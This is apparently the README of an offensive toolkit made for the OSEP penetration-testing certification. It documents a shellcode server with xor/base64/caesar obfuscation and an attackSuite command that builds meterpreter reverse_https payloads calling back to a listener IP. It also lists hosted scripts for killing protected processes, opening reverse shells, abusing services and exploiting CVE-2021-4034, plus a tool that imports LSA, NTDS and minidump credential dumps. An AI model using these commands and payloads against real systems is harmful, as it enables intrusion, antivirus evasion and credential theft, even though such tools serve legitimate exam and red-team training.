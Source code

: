 # osep-tools

## 3rd Party Library Version Info

* SharpHound [1.0.3](https://github.com/BloodHoundAD/SharpHound/commit/97f5d42bbb9c049e5f2ae14d6f9306358f92d8cf)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```

![](images/screenshot-msfapiserv.png)

## AttackSuite

### Setup I

```
pip3 install -r requirements.txt
```

Put following command into `~/.zshrc`

```
alias a="$HOME/.local/bin/arsenal"
```

### Setup II

Tools to compile `CSharp EXE` & `linux elf` in Kali (ARM64).

```
sudo apt install -y mono-complete gcc-11-x86-64-linux-gnu
```

### Intro

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME] [--mhome MHOME]
                      [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC] [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf, 'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
```

![](images/screenshot-attackSuite.png)

### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |
| /msi       | Write-MSI                 |
| /llpe      | linux LPE (cve-2021-4034) |
| /wlpc      | Invoke-WinPeas            |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```

![](images/screenshot-attackSuite-arsenal.png)
                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool designed for OSEP EXAM
                                        
### Setup

```
pip3 install -r requirements-centre.txt
```

Put following command into `~/.zshrc`.

```
alias centre.py="/path/to/centre.py"
```

You can type `centre.py` everywhere, creating `credential/host/record` in current working directory.

### Intro

```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```
